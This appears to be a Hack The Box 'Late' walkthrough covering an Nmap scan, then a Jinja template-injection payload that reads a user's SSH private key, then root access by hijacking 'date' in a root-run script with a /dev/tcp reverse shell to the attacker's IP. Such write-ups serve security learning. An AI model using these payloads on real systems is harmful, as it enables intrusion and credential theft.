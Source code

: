 # HTB - Late

## Nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-26 20:09 CEST
Nmap scan report for 10.129.52.249
Host is up (0.085s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.98 seconds
```

## Port 80

<img src="https://github.com/UllernJ/CTF/blob/main/HTB/HTB-Late/Skjermbilde%20fra%202022-04-28%2021-59-57.png">

When we go around this page we'll find out that they have a subdomain called "images.late.htb/".
<p>To access this we need to add this to our known hosts @ /etc/hosts/.
<p>When we mess around here we discover that this a python app image reader. What we want to do now is to break it.
<p>A known payload to inject code into python apps is to use double brackets with code forexample:
  
 ```
  input: {{ 2*2 }}
  output: 4
```
  
What we would need to here to insert the payload to a image and make it readable to the reader and it would respond to that.
<p>With help of this <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection">page</a> with various payloads I managed to get user with this payload:
  
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
We extract the rsa key to ssh to the user without the password.

```

  <img src="https://github.com/UllernJ/CTF/blob/main/HTB/HTB-Late/Skjermbilde%20fra%202022-04-28%2021-58-54.png">
  
## root

  First of I want to check for vulnerabilities with <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">linpeas</a>.
  <p>I download it on my computer and make the "victim" download the linpeas from me. (because hackthebox wont let you download from github).
  <p>We can see that linpeas marks a folder named /usr/local/sbin.
  <p> Are we can find a file named ssh-alert.sh
    
```
    #!/bin/bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"
BODY="
A SSH login was detected.
        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
```
    
 So what happens here is that root will call to this program every time someone ssh into the server.
<p>So what we can do here is exploit the programs <b>date</b> and <b>uname</b>. These programs are being called from path, so what we can do is to examine our path:

```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
 
Lets say we create a file named date as a executeable here. Root would run it because of the PATH misconfiguration.
I create a file named date with a reverse shell:
```
  bash -i >& /dev/tcp/10.10.16.6/1234 0>&1
```
  
What we need to do now is just to ssh into the server agian and root will execute the ssh-alert.sh that also runs "date" (our reverseshell).
BOOM ROOT
<p><img src="https://github.com/UllernJ/CTF/blob/main/HTB/HTB-Late/root.png">

 
  

